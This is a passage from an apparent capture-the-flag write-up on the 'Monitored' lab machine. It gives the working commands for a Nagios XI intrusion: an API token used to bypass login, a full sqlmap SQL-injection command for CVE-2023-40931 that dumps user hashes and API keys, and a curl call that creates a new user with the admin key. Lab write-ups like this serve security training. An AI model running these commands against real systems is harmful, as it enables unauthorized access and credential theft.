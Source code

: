 I also can't use it for ssh, not for the svc user anyway, and the snmap service does not return any users when I attempt to query the user account OID (`1.3.6.1.4.1.77.1.2.25`). But interesting, when I use a different user and/or password, the response is `Invalid username or password`. So I suspect the `svc` account does exit, but maybe it has been disabled. It also means that the credentials are correct. 

When I search exploit-db for `Nagios XI`, I find a number of exploits. It's seem like maybe we could be able to use one of them, but I tried some, and it doesn't look like they were. I get `Login ... Failed!` from [this one](https://www.exploit-db.com/exploits/49422), because it is after all trying to login with the `login.php` page, but that's the one we're already trying. 

There is an API we can try, but the documentation isn't great. I find a reference to an `authenticate` endpoint [here](https://support.nagios.com/forum/viewtopic.php?p=336355&hilit=%2Fapi%2Fv1%2Fauthenticate#p336355) . I try the command referenced here `curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1" -d "username=svc&=XjH7VCehowpR1xZB&valid_min=15" -k -v` and with a GET request as well, but I can't seem to authenticate, and I learn that we can only use the POST request. Then I realize I left out the password parameter title in the curl command above. I try again (`curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1" -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=15" -k -v`), and I get this response:

![Screenshot 2024-10-31 at 9.49.29 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 9.49.29 PM.png){: .responsive-image}

So we have an authentication token at least. I'm not really sure what to do with that, but when I Google `nagiosxi token /api/v1/authenticate`, I actually see [this exploit](https://www.exploit-db.com/exploits/51925O)from exploit-db. And it contains this line:

![Screenshot 2024-10-31 at 9.58.49 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 9.58.49 PM.png){: .responsive-image}

So I just enter this enter my browser: `http://nagios.monitored.htb/nagiosxi/login.php?token=43514b34eea3d838361f57bc116e6132428ad8fa`, and I get in!

![Screenshot 2024-10-31 at 10.00.23 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 10.00.23 PM.png){: .responsive-image}

Not in the screenshot, but the footer shows that we are working with `Nagios 5.11.0`. When we google that, we see there are a [couple CVE's](https://www.tenable.com/plugins/nessus/181758) for SQL injection, and googling 
"CVE-2023-40931" returns [this PoC](https://github.com/sealldeveloper/CVE-2023-40931-PoC). If we replace our relevant parameters, the full command is:

```
sqlmap -D nagiosxi -T xi_users -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=1000" | awk -F'"' '{print$12}'`" --dump --level 4 --risk 3 -p id --batch
```

This dumps the `xi_users` table which shows us the users, their bcrypt encrypted passwords, and their API keys. This includes `svc` which is disabled, but it also includes `nagiosadmin`. I try to crack the `nagiosadmin` encrypted password, but I don't get anything back. So we know there are authenticated RCEs, but they require us to login normally. Now that we have the high-privilege API key (`IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`, maybe we can change a password, enable the `svc` user, or create a new user. When I google "nagios api create user", I find [this](https://support.nagios.com/forum/viewtopic.php?t=42923) forum post with what appears to be the perfect command for me. I adjust it for my own use and run `curl -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=poppop&password=party1&name=Pop%20Pop&email=pop@pop.com"` which returns these results:
